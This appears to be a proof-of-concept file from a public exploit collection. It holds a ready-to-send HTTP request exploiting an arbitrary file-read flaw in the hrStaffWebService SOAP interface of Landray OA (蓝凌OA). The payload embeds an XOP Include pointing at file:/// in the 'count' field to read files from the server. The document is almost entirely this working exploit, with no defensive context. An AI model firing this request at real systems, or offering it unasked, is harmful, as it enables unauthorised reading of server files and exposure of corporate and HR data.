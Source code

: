 # landray_hrStaffWebService_fileread

product: 蓝凌OA

```
POST /sys/webservice/hrStaffWebService HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Content-Length: 563
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Connection: close
Content-Type: multipart/related; boundary=----frhpvivnctknnkiwugaq
SOAPAction: ""

------frhpvivnctknnkiwugaq
Content-Disposition: form-data; name="1"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservice.staff.hr.kmss.landray.com/">
<soapenv:Header/>
<soapenv:Body>
    <web:getHrStaffElements>
        <arg0>
            <beginTimeStamp>1</beginTimeStamp>
            <count><xop:Include 
xmlns:xop="http://www.w3.org/2004/08/xop/include" 
href="file:///"/></count>
        </arg0>
    </web:getHrStaffElements>
</soapenv:Body>
</soapenv:Envelope>
------frhpvivnctknnkiwugaq--
```

from: https://github.com/wy876/POC/blob/main/%E8%93%9D%E5%87%8COA/%E8%93%9D%E5%87%8COA-EKP%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3hrStaffWebService%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
